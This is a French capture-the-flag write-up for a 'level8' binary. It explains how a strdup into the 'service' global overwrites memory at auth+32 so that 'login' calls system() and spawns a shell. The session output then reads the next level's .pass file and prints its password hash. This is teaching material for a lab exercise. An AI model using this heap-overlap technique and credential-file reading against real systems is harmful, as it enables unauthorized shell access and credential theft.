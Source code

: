                                           
## Exploit

Après l'analyse de ce (~trop~ très) long main ( •̀ - •́ ) ***angry norminette noises*** ( •̀ - •́ ), on comprend plusieurs choses:
- A chaque tour de boucle, le programme:
  - Affiche les adresses de auth et service, sous le format `(&auth), (&service)` ()
  - Attend une de ces commandes sur l'entrée standard:
    - "auth "
      - si l'input qui suit la commande est moins long que 30 caractères, copie son contenu dans la globale <auth>
    - "reset"
      - free la gloable <auth>
    - "service"
      - strdup l'input qui suit la commande dans la globale <service>
    - "login"
      - si auth[32] != 0, pop un shell avec la commande system()
      - sinon, écrit "Password:\n" sur la sortie standard
          
- `./level8`
  ```
  (nil), (nil)
          
  ```
  - `auth `
    ```
    0x804a008, (nil)
    ```
  - `service`
    ```
    0x804a008, 0x804a018
    ```
  - `login`
    ```
    Password:
    0x804a008, 0x804a018
    ```
L'objectif est d'écrire quelque chose à l'adresse auth +32 pour que sa valeur ne soit pas null et que login nous ouvre le shell.
Le strcpy() de auth est protégé par un strlen() de max 30, mais le strdup de service (qui se trouve à auth + 0x10 = 16) ne l'est pas, il nous suffit donc d'écrire au moins 15 caractères en input de service pour écrire à &service + 16 == &auth + 32.
- `./level8`
  ```
  (nil), (nil)
          
  ```
  - `auth `
    ```
    0x804a008, (nil)
    ```
  - `service AAAAAAAAAAAAAAA`
    ```
    0x804a008, 0x804a018
    ```
  - `login`
    ```
    $
    $ whoami
    level9
    $ cat /home/user/level9/.pass
    c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
    ```
